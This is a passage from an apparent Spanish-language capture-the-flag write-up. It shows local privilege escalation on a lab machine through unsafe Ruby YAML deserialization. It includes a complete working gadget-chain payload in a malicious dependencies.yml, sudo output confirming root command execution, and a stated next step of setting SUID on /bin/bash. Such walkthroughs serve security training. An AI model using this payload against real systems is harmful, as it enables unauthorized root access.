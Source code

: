 Lo primero será lograr identificar la versión de `Ruby` que tiene instalada el equipo víctima.

```bash
henry@precious:~$ /usr/bin/ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

En la página de `PayloadsAllTheThings` nos encontramos con diferentes métodos de abusar de esta **deserialización en Ruby**.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md" %}

A través del siguiente `dependencies.yml` malicioso, lo que realizaremos es que consiga ejecutar el comando `id` para verificar si funciona correctamente el **Deserialization Attack**.

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Al ejecutar el script de **Ruby**, verificamos que carga el archivo malicioso y finalmente se muestra la ejecución del comando inyectado, y se verifica que el usuario que ejecuta el comando es el usuario `root`.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
```

Por lo tanto, ya que el usuario que ejecuta el comando es `root`, lo que trataremos es de realizar lo siguiente.

A través del siguiente archivo `dependencies.yml` malicioso, lo que realizaremos es modificar el binario de `/bin/bash` para darle permisos de `SUID` y así lograr convertirnos en usuario `root`. Verificaremos los permisos actuales del binario`/bin/bash` el cual `root` es propietario.
